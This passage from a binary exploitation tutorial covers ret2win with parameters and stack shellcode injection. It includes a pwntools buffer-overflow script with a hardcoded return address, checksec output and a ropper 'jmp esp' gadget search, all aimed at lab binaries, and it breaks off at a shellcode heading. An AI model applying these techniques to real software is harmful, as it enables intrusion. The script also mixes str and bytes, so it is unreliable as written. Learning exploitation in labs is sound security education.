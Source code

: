 > **Note**: When dealing with Little Endian, we need to reverse the bytes order.

# Ret2Win with Parameters

Similar with no parameters, but indeed we will need to append the parameteres to the stack.

Before adding ours parameters into the payload we need to specify the return address of the new function called. We can use junk data such as `AAAA`.

After the return address we will send the parameters in order of being called. First the first parameter and after that the second and more...

```python
from pwn import *
io = process('./ret2win')
#Hacked function address 0x08049182
payload = 28 * b'A' + b'\x82\x91\x04\x08' + 'AAAA' + 'PARAM1' + 'PARAM2'
io.sendlineafter(b':', payload)
print(io.recvall())
```

# Injecting Shellcode

In the last chapters we overwrite some stack variables or return address to access to hidden functions that never have been called. Buf if **NX is disabled** we will be able to execute shellcode on the stack such as a reverse shell.

```
$ checksec ./server
[*] '/tmp/server'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments

```
Once controlled the `EIP`, we are going to overwrite it with the memory address of `jmp %esp` gadget, which can be found with `ropper`. 

```
$ ropper --file server --search "jmp esp"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: jmp esp

[INFO] File: server
0x0804919f: jmp esp; 
```
## Creating Shellcode
